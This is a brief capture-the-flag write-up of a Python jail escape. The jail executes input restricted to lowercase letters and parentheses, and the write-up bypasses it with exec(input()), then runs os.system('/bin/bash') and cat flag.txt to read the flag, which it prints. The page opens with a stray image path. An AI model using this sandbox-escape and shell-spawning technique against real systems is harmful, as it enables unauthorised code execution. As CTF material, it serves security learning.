We are given a pyprison where we can only use opening and closing brace and small cased alphabets as the input.

```
while True:
  a = input(">>> ")
  assert all(n in "()abcdefghijklmnopqrstuvwxyz" for n in a)
  exec(a)
```

This means no imports and no OS functions to read the flag.

After going through a lot of pyjail breaks writeups, I was not able to find a solution until after the contest. 

If we enter exec(input()), it opens a input shell in python where we can enter anything and bypass the prison.

```
exec(input())

import os; 
os.system("/bin/bash")

ls

#contents:
#chal
#flag.txt

cat flag.txt
```

Flag is ```ictf{pyprison_more_like_python_as_a_service_12b19a09}```


